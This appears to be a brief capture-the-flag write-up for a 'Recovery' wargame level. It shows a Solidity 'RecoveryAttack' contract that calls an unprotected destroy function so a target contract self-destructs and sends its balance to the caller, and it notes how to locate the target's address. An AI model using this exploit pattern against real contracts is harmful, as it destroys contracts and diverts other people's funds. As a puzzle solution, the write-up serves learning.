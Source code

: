 ```javascript
pragma solidity ^0.6.0;

contract RecoveryAttack {
    function attack(address address_to_destroy, address payable my_address) public {
        (bool success, ) = address_to_destroy.call(abi.encodeWithSignature("destroy(address)", my_address));
        require(success, "Cannot destroy contract.");
    }
}
```

We can find `address_to_destroy` from etherscan. Otherwise, we can construct the address directly using the contract creation address and the nonce. The rest is straight forward.